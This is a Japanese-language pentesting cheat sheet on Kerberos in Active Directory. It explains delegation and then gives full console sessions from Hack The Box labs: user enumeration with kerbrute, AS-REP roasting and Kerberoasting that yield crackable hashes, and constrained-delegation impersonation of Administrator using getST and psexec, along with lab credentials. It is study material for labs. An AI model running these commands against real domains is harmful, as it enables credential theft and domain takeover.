





# Description

---

## Basics



- 事前認証は Active Directory ではデフォルトで有効
- TGT は、認証クライアントであるユーザアカウントのパスワードハッシュで暗号化される
- サービスは必ず SPN でアカウントに紐付けられる。
- サービスがユーザアカウントに紐付けられている TGS は、前記ユーザアカウントのパスワードハッシュで暗号化される
- 詳細は[Kerberos (I): How does Kerberos work?](https://www.tarlogic.com/en/blog/how-kerberos-works/)を参照

## Unconstrained Delegation

- [Kerberos (III): How does delegation work?](https://www.tarlogic.com/blog/kerberos-iii-how-does-delegation-work/)



- ポイントは、AP ServerZ に User1 の TGT が送信される点
- AP ServerZ はドメインコントローラの UserZ アカウントの SPN で指定されている
- UserZ アカウントを侵害することができれば、SPN を書き換えることができる
- すなわち、SPN を攻撃者サーバに変更することで、攻撃者サーバが AP ServerZ になりすますことができる
- したがって、攻撃者サーバでは User1 の TGT を入手することが可能となる
- また、PrintBug などを利用すると、任意のユーザに Ap ServerZ(になりすました攻撃者サーバ)との認証を行わせることができる
- これにより、例えば Admin の TGT を入手することが可能となる

## Constrained Delegation

- [Kerberos (III): How does delegation work?](https://www.tarlogic.com/blog/kerberos-iii-how-does-delegation-work/)
  
- S4U2Proxy のポイントは、ServiceZ の User1 の TGS から、msDS-AllowedToDelegationTo で指定された ServiceX の User1 の TGS を生成可能な点



- S4U2Self のポイントは、UserZ の TGT から、ServiceZ の任意のユーザ(例では User1)の TGS を生成可能な点
- したがって、ドメインコントローラの UserZ アカウントを侵害することができれば、UserZ の TGT を入手できるため、S4U2Sefl を利用し、ServiceZ の任意のユーザの TGS を入手できる
- 更に、S4U2Proxy を利用し、ServiceZ の任意のユーザ(例えば Admin)の TGS から、msDS-AllowedToDelegationTo で指定された ServiceX の任意のユーザの TGS を入手できる



- 更にはサービス名は、TGS のクリアテキストに記載されており、変更可能
  - ホスト名は変更できないことに注意
- したがって、msDS-AllowedToDelegationTo で指定された ServiceX の任意のユーザの TGS から、msDS-AllowedToDelegationTo で指定された ServiceX が稼働するホストの、任意のサービスの任意のユーザの TGS を入手できる

# Attack

---

## Pre-Auth Bruteforce

- 事前認証を悪用し、ユーザを列挙
- Tool: [kerbrute](https://github.com/ropnop/kerbrute)
- HTB: Sauna

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Sauna]
  └──╼ $kerbrute userenum -d egotistical-bank.local --dc egotistical-bank.local users.txt

      __             __               __
     / /_____  _____/ /_  _______  __/ /____
    / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
   / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
  /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

  Version: v1.0.3 (9dad6e1) - 07/14/21 - Ronnie Flathers @ropnop

  2021/07/14 10:49:06 >  Using KDC(s):
  2021/07/14 10:49:06 >   egotistical-bank.local:88

  2021/07/14 10:49:06 >  [+] VALID USERNAME:       administrator@egotistical-bank.local
  2021/07/14 10:49:06 >  [+] VALID USERNAME:       fsmith@egotistical-bank.local
  2021/07/14 10:49:12 >  [+] VALID USERNAME:       hsmith@egotistical-bank.local
  2021/07/14 10:49:12 >  Done! Tested 102 usernames (3 valid) in 6.698 seconds
  ```

## AS-REP Roasting

- 事前認証が有効でないユーザの AS-REP を取得
- HTB: Forest

  ```console
  ┌─[rio@parrot]─[~/Htb/Forest]
  └──╼ $impacket-GetADUsers -dc-ip forest.htb -all htb.local/
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

  [*] Querying forest.htb for information about domain.
  Name                  Email                           PasswordLastSet      LastLogon
  --------------------  ------------------------------  -------------------  -------------------
  Administrator         Administrator@htb.local         2019-09-19 02:09:08.342879  2019-10-07 19:57:07.299606
  Guest                                                 <never>              <never>
  DefaultAccount                                        <never>              <never>
  krbtgt                                                2019-09-18 19:53:23.467452  <never>
  $331000-VK4ADACQNUCA                                  <never>              <never>
  SM_2c8eef0a09b545acb  SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}@htb.local  <never>              <never>
  SM_ca8c2ed5bdab4dc9b  SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@htb.local  <never>              <never>
  SM_75a538d3025e4db9a  SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@htb.local  <never>              <never>
  SM_681f53d4942840e18  DiscoverySearchMailbox{D919BA05-46A6-415f-80AD-7E09334BB852}@htb.local  <never>              <never>
  SM_1b41c9286325456bb  Migration.8f3e7716-2011-43e4-96b1-aba62d229136@htb.local  <never>              <never>
  SM_9b69f1b9d2cc45549  FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@htb.local  <never>              <never>
  SM_7c96b981967141ebb  SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@htb.local  <never>              <never>
  SM_c75ee099d0a64c91b  SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@htb.local  <never>              <never>
  SM_1ffab36a2f5f479cb  SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@htb.local  <never>              <never>
  HealthMailboxc3d7722  HealthMailboxc3d7722415ad41a5b19e3e00e165edbe@htb.local  2019-09-24 07:51:31.892097  2019-09-24 07:57:12.361516
  HealthMailboxfc9daad  HealthMailboxfc9daad117b84fe08b081886bd8a5a50@htb.local  2019-09-24 07:51:35.267114  2019-09-24 07:52:05.736012
  HealthMailboxc0a90c9  HealthMailboxc0a90c97d4994429b15003d6a518f3f5@htb.local  2019-09-19 20:56:35.206329  <never>
  HealthMailbox670628e  HealthMailbox670628ec4dd64321acfdf6e67db3a2d8@htb.local  2019-09-19 20:56:45.643993  <never>
  HealthMailbox968e74d  HealthMailbox968e74dd3edb414cb4018376e7dd95ba@htb.local  2019-09-19 20:56:56.143969  <never>
  HealthMailbox6ded678  HealthMailbox6ded67848a234577a1756e072081d01f@htb.local  2019-09-19 20:57:06.597012  <never>
  HealthMailbox83d6781  HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local  2019-09-19 20:57:17.065809  <never>
  HealthMailboxfd87238  HealthMailboxfd87238e536e49e08738480d300e3772@htb.local  2019-09-19 20:57:27.487679  <never>
  HealthMailboxb01ac64  HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local  2019-09-19 20:57:37.878559  <never>
  HealthMailbox7108a4e  HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local  2019-09-19 20:57:48.253341  <never>
  HealthMailbox0659cc1  HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local  2019-09-19 20:57:58.643994  <never>
  sebastien                                             2019-09-20 09:29:59.544725  2019-09-23 07:29:29.586227
  lucinda                                               2019-09-20 09:44:13.233891  <never>
  svc-alfresco                                          2021-07-14 17:47:23.292030  2021-07-14 17:48:37.541775
  andy                                                  2019-09-23 07:44:16.291082  <never>
  mark                                                  2019-09-21 07:57:30.243568  <never>
  santi                                                 2019-09-21 08:02:55.134828  <never>
  ┌─[rio@parrot]─[~/Htb/Forest]
  └──╼ $cat users.txt
  Administrator
  Guest
  DefaultAccount
  krbtgt
  $331000-VK4ADACQNUCA
  SM_2c8eef0a09b545acb
  SM_ca8c2ed5bdab4dc9b
  SM_75a538d3025e4db9a
  SM_681f53d4942840e18
  SM_1b41c9286325456bb
  SM_9b69f1b9d2cc45549
  SM_7c96b981967141ebb
  SM_c75ee099d0a64c91b
  SM_1ffab36a2f5f479cb
  HealthMailboxc3d7722
  HealthMailboxfc9daad
  HealthMailboxc0a90c9
  HealthMailbox670628e
  HealthMailbox968e74d
  HealthMailbox6ded678
  HealthMailbox83d6781
  HealthMailboxfd87238
  HealthMailboxb01ac64
  HealthMailbox7108a4e
  HealthMailbox0659cc1
  sebastien
  lucinda
  svc-alfresco
  andy
  mark
  santi
  ┌─[rio@parrot]─[~/Htb/Forest]
  └──╼ $impacket-GetNPUsers -dc-ip forest.htb htb.local/ -no-pass -usersfile users.txt
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

  [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
  $krb5asrep$23$svc-alfresco@HTB.LOCAL:23694912bc10f703aa8a3a48ba76b0e8$00f3ae54d78b432b54bacb26fd7cc3cf52d85b0b84ee28b80ff4ac2974942d311eb4b56acaba6311a8c8b7878f42f89aeb8932532034d359d2d128f7137f44d4aa7cd74f394d26578a1699a1890aa246eb2e3b0044b4afceef6b91fe877fa25277e33d65d9e952a26c8d66f836bf15c0edee80a90d5f6fa9f81be826fa0cf0ed9fd72c6bf18eb5b1dc2b25bfcd09f0cb8e79d02b30f4cdded6e6da8dfdfab099cfd4369dacf58182da364e8da2c5422b0f8efb36f1fa2b84f47f723e19ae8f6d65ee969c4bfa0f5c2d48e91f250e491e8133ff3b141ff3c5eeb9a6b762138994e24eb1c7728d
  [-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
  ```

## Kerberoasting

- ユーザに紐付けられたサービスの TGS を取得する
- ユーザーまたはコンピューターが Kerberos を使用し（例えば）SMB 経由でホストに認証する場合、Windows はサービスチケットの要求をドメインコントローラーに送信する。この要求には、プロトコルとサービスが存在するホストから構成されるサービスプリンシパル名（SPN）が含まれる。ドメインコントローラーは、前記 SPN が割り当てられているアカウントのディレクトリでルックアップし、発見したアカウントに関連付けられている Kerberos キーを使用してサービスチケットを暗号化する。前記 Kerberos キーは、発見したアカウントのパスワードから生成される。
- servicePrincipalName を有するユーザが攻撃対象
- HTB: Active

  ```console
  ┌─[rio@parrot]─[~/Htb/Active]
  └──╼ $ldapsearch -x -D SVC_TGS@active.htb -w GPPstillStandingStrong2k18 -h active.htb -b cn=administrator,cn=users,dc=active,dc=htb
  # extended LDIF
  #
  # LDAPv3
  # base <cn=administrator,cn=users,dc=active,dc=htb> with scope subtree
  # filter: (objectclass=*)
  # requesting: ALL
  #

  # Administrator, Users, active.htb
  dn: CN=Administrator,CN=Users,DC=active,DC=htb
  objectClass: top
  objectClass: person
  objectClass: organizationalPerson
  objectClass: user
  cn: Administrator
  description: Built-in account for administering the computer/domain
  distinguishedName: CN=Administrator,CN=Users,DC=active,DC=htb
  instanceType: 4
  whenCreated: 20180718184911.0Z
  whenChanged: 20210121160703.0Z
  uSNCreated: 8196
  memberOf: CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb
  memberOf: CN=Domain Admins,CN=Users,DC=active,DC=htb
  memberOf: CN=Enterprise Admins,CN=Users,DC=active,DC=htb
  memberOf: CN=Schema Admins,CN=Users,DC=active,DC=htb
  memberOf: CN=Administrators,CN=Builtin,DC=active,DC=htb
  uSNChanged: 90145
  name: Administrator
  objectGUID:: jnHKJRJzf0aVWkxPEJY8Hg==
  userAccountControl: 66048
  badPwdCount: 0
  codePage: 0
  countryCode: 0
  badPasswordTime: 132557785413335370
  lastLogoff: 0
  lastLogon: 132557785506155533
  logonHours:: ////////////////////////////
  pwdLastSet: 131764144003517228
  primaryGroupID: 513
  objectSid:: AQUAAAAAAAUVAAAArxktGAS1AL49Gv129AEAAA==
  adminCount: 1
  accountExpires: 0
  logonCount: 35
  sAMAccountName: Administrator
  sAMAccountType: 805306368
  servicePrincipalName: active/CIFS:445
  objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=active,DC=htb
  isCriticalSystemObject: TRUE
  dSCorePropagationData: 20180718203435.0Z
  dSCorePropagationData: 20180718201454.0Z
  dSCorePropagationData: 20180718190545.0Z
  dSCorePropagationData: 20180718190545.0Z
  dSCorePropagationData: 16010101000000.0Z
  lastLogonTimestamp: 132557188237237831
  msDS-SupportedEncryptionTypes: 0

  # search result
  search: 2
  result: 0 Success

  # numResponses: 2
  # numEntries: 1
  ┌─[rio@parrot]─[~/Htb/Active]
  └──╼ $impacket-GetUserSPNs -dc-ip active.htb active.htb/SVC_TGS -request
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

  Password:
  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation
  --------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-19 04:06:40.351723  2021-01-22 17:42:30.615553


  $krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$34cdd5b77a82e3cf3f877e9eb44be9db$e57eb7b644bf4a8d12ff4960fc16445b88caf8bc2cceec0fd24c9eeb7650950c0ba9e3f516e9755dbbd08ff350c39ce6bce55f8d4db67261870d30f07edc495cf104bfc74e8e7d6e172d5bcbb98eb7390d31722acdcffe6cc249c8ef8ce7a89506abc45d31922fd7dd6c380dbc6370c7432bb06f487e2f97dd12df40c7327048174f8c7781a0d91f951b318d56b79cc2eadb3a9d65229c3e497256fc3bfe1f3c86440fb9841f03a8298faefce530e90cb752d47c92285ec9ca1e9c3ebe64f6b5c94876d5cde282d6091b290ba26a5cad530fd76c49179cc16e520a466adf87dfdfb671105080aa20ab4dd36d88acac0ba92926b107e1597ef7a124347c82cb2332bfa928ab83002dd6102e9ae39185d72adc1070dc9ecfbf15af5c4c980b8a4c10c67d0b1bd1ea807dfeb00e3703ee60cc7a774a686634f96ac5cf34873a69b11e91bb15776919801676b422d170563eac9b83c69ee919d4610fa8441d9dfb032e1d86360ff0fb00b3a872080e314d3aff2b2c43a7294989fe69a0743e1093182e62eae77e42a3d7caf47d35918ec79a4e1eafabb034f771cf9656dbfb0ffb80e1bce0ccd100defcfe2f8f79362aa3a5650a87537d2daa5d182f0f373609f760a60f727ed2980c99219b7741e45b486a148d556b6a766bb81cde54dbcaaf551aa2faf6e5c967771f6aae29e725bbcd6f4ae7be2afec5bec7e61cc754ea3ca133ffb991ea196778e9add0bbe5b687e64cdd09276e45a57ac9327bfc65a13a693c1dda029922623fe602454f4308e954f080efe627d349890aa40c96fde88ea8271aebc1c9da812a4aef10d6675fa93aedc17c0fc873a1d1c8134bd41ba156c64d73a400c6af652aa0956e13a1c0b642b0d1b6ceebe7e775818445aea3cfe97a2ab62d624f0f272f0e4008184bad4b61343b755725b82e76c92d7bbc05f17790293e6ad8353b7eea3e8a2d7161e43d1ad00a248363e5ec8226bb4d770a5a33f51dc722fc3a5fad3a5ded48c4cbc0eef11331d434cc4ce655ba4e82865f08afbfa09888ec526e1d99315047cddc95b3f18c3f514749daa6138a88fe7dc84d69fd2a23faeb36d76323d2683ca7a0122cdb3a9ac3aff9ab2ee94836c87de1b22c30b4c4de45091d49819aa450daba9b69541bcc81eae93d6f6c2e4aa074998cdbc8bc4b764b55df3aee3dd01961d54a4ff2b264d2539c578966b4a862a7996e0bb78c829b844dbc4927f12d5d5ed1db3b6beaee62abfde8e432ed3ed8

  ```

## Unconstrained Delegation Attack

- 制約のない委任が許可されている時、侵害したアカウントの SPN を攻撃者サーバに改ざんすることで、前記 SPN の TGS を要求したユーザの TGT を取得可能
- ldap の userAccountControl プロパティに**TRUSTED_FOR_DELEGATION**フラグが設定されているアカウントが攻撃対象
- [krbrelayx/krbrelayx](https://github.com/dirkjanm/krbrelayx)を利用し、ユーザから送信された TGT を受信する攻撃者サーバを構築
  - 高権限を有するユーザがドメインコントローラに特定の SPN（この場合は改ざんした SPN）の TGS を要求するよう、攻撃者は PrinterBug や PrivExec の脆弱性を利用する必要がある
- 詳細は[“Relaying” Kerberos - Having fun with unconstrained delegation](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)を参照

## Constrained Delegation Attack

- 制約付き委任が許可されている時、任意のユーザに成りすまして**msDS-AllowedToDelegateTo**が示すホストの任意のサービスの TGS を取得可能
  - リソースベースの制約付き委任が許可されている時は、**msDS-AllowedToActOnBehalfOfOtherIdentity**プロパティを有するサービスが示すホストの任意のユーザかつ任意のサービスの TGS が取得可能
- ldap の userAccountControl プロパティに**TRUSTED_TO_AUTH_FOR_DELEGATION**フラグが設定されているアカウントが攻撃対象
- 詳細は[Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)を参照
- HTB: Intelligence

  ```console
  ┌─[rio@parrot]─[~/Htb/Intelligence]
  └──╼ $pywerview/pywerview.py get-adobject -u ted.graves -p Mr.Teddy -t intelligence.htb --name svc_int
  accountexpires:                 never
  badpasswordtime:                1601-01-01 09:00:00
  badpwdcount:                    0
  cn:                             svc_int
  codepage:                       0
  countrycode:                    0
  distinguishedname:              CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=htb
  dnshostname:                    svc_int.intelligence.htb
  dscorepropagationdata:          1601-01-01 00:00:00
  instancetype:                   4
  iscriticalsystemobject:         FALSE
  lastlogoff:                     1601-01-01 09:00:00
  lastlogon:                      2021-06-30 09:56:22.553403
  lastlogontimestamp:             2021-06-30 09:56:22.553403
  localpolicyflags:               0
  logoncount:                     1
  msds-allowedtodelegateto:       WWW/dc.intelligence.htb
  msds-groupmsamembership:        010004801400000000000000000000002400000001020000000000052000000020020000040050000200000000002400ff01...
  msds-managedpasswordid:         010000004b44534b02000000670100001d0000001800000059ae9d4f448f56bf92a5f4082ed6b61100000000220000002200...
  msds-managedpasswordinterval:   30
  msds-managedpasswordpreviousid: 010000004b44534b02000000670100001b0000001000000059ae9d4f448f56bf92a5f4082ed6b61100000000220000002200...
  msds-supportedencryptiontypes:  28
  name:                           svc_int
  objectcategory:                 CN=ms-DS-Group-Managed-Service-Account,CN=Schema,CN=Configuration,DC=intelligence,DC=htb
  objectclass:                    ['top', 'person', 'organizationalPerson', 'user', 'computer', 'msDS-GroupManagedServiceAccount']
  objectguid:                     f180a079-f326-49b2-84a1-34824208d642
  objectsid:                      S-1-5-21-4210132550-3389855604-3437519686-1144
  primarygroupid:                 515
  pwdlastset:                     2021-06-30 09:54:47.975284
  samaccountname:                 svc_int$
  samaccounttype:                 805306369
  useraccountcontrol:             ['WORKSTATION_TRUST_ACCOUNT', 'TRUSTED_TO_AUTH_FOR_DELEGATION']
  usnchanged:                     106739
  usncreated:                     12846
  whenchanged:                    2021-06-30 00:56:22
  whencreated:                    2021-04-19 00:49:58

  ┌─[rio@parrot]─[~/Htb/Intelligence]
  └──╼ $ldapsearch -x -D ted.graves@intelligence.htb -w Mr.Teddy -h intelligence.htb -b 'dc=intelligence,dc=htb' name=svc_int
  # extended LDIF
  #
  # LDAPv3
  # base <dc=intelligence,dc=htb> with scope subtree
  # filter: name=svc_int
  # requesting: ALL
  #

  # svc_int, Managed Service Accounts, intelligence.htb
  dn: CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=htb
  objectClass: top
  objectClass: person
  objectClass: organizationalPerson
  objectClass: user
  objectClass: computer
  objectClass: msDS-GroupManagedServiceAccount
  cn: svc_int
  distinguishedName: CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=h
   tb
  instanceType: 4
  whenCreated: 20210419004958.0Z
  whenChanged: 20210630005622.0Z
  uSNCreated: 12846
  uSNChanged: 106739
  name: svc_int
  objectGUID:: eaCA8SbzskmEoTSCQgjWQg==
  userAccountControl: 16781312
  badPwdCount: 0
  codePage: 0
  countryCode: 0
  badPasswordTime: 0
  lastLogoff: 0
  lastLogon: 132694881825534026
  localPolicyFlags: 0
  pwdLastSet: 132694880879752841
  primaryGroupID: 515
  objectSid:: AQUAAAAAAAUVAAAARobx+nQXDcpGY+TMeAQAAA==
  accountExpires: 9223372036854775807
  logonCount: 1
  sAMAccountName: svc_int$
  sAMAccountType: 805306369
  dNSHostName: svc_int.intelligence.htb
  objectCategory: CN=ms-DS-Group-Managed-Service-Account,CN=Schema,CN=Configurat
   ion,DC=intelligence,DC=htb
  isCriticalSystemObject: FALSE
  dSCorePropagationData: 16010101000000.0Z
  lastLogonTimestamp: 132694881825534026
  msDS-AllowedToDelegateTo: WWW/dc.intelligence.htb
  msDS-SupportedEncryptionTypes: 28
  msDS-ManagedPasswordId:: AQAAAEtEU0sCAAAAZwEAAB0AAAAYAAAAWa6dT0SPVr+SpfQILta2E
   QAAAAAiAAAAIgAAAGkAbgB0AGUAbABsAGkAZwBlAG4AYwBlAC4AaAB0AGIAAABpAG4AdABlAGwAbA
   BpAGcAZQBuAGMAZQAuAGgAdABiAAAA
  msDS-ManagedPasswordPreviousId:: AQAAAEtEU0sCAAAAZwEAABsAAAAQAAAAWa6dT0SPVr+Sp
   fQILta2EQAAAAAiAAAAIgAAAGkAbgB0AGUAbABsAGkAZwBlAG4AYwBlAC4AaAB0AGIAAABpAG4AdA
   BlAGwAbABpAGcAZQBuAGMAZQAuAGgAdABiAAAA
  msDS-ManagedPasswordInterval: 30
  msDS-GroupMSAMembership:: AQAEgBQAAAAAAAAAAAAAACQAAAABAgAAAAAABSAAAAAgAgAABABQ
   AAIAAAAAACQA/wEPAAEFAAAAAAAFFQAAAEaG8fp0Fw3KRmPkzOgDAAAAACQA/wEPAAEFAAAAAAAFF
   QAAAEaG8fp0Fw3KRmPkzHYEAAA=

  # search reference
  ref: ldap://ForestDnsZones.intelligence.htb/DC=ForestDnsZones,DC=intelligence,
   DC=htb

  # search reference
  ref: ldap://DomainDnsZones.intelligence.htb/DC=DomainDnsZones,DC=intelligence,
   DC=htb

  # search reference
  ref: ldap://intelligence.htb/CN=Configuration,DC=intelligence,DC=htb

  # search result
  search: 2
  result: 0 Success

  # numResponses: 5
  # numEntries: 1
  # numReferences: 3

  ┌─[rio@parrot]─[~/Htb/Intelligence]
  └──╼ $impacket-getST -dc-ip intelligence.htb -spn WWW/dc.intelligence.htb -impersonate Administrator -hashes :d64b83fe606e6d3005e20ce0ee932fe2 intelligence.htb/svc_int
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

  [*] Getting TGT for user
  [*] Impersonating Administrator
  [*]     Requesting S4U2self
  [*]     Requesting S4U2Proxy
  [*] Saving ticket in Administrator.ccache
  ┌─[rio@parrot]─[~/Htb/Intelligence]
  └──╼ $export KRB5CCNAME=./Administrator.ccache
  ┌─[rio@parrot]─[~/Htb/Intelligence]
  └──╼ $impacket-psexec -k -no-pass intelligence.htb/administrator@dc.intelligence.htb
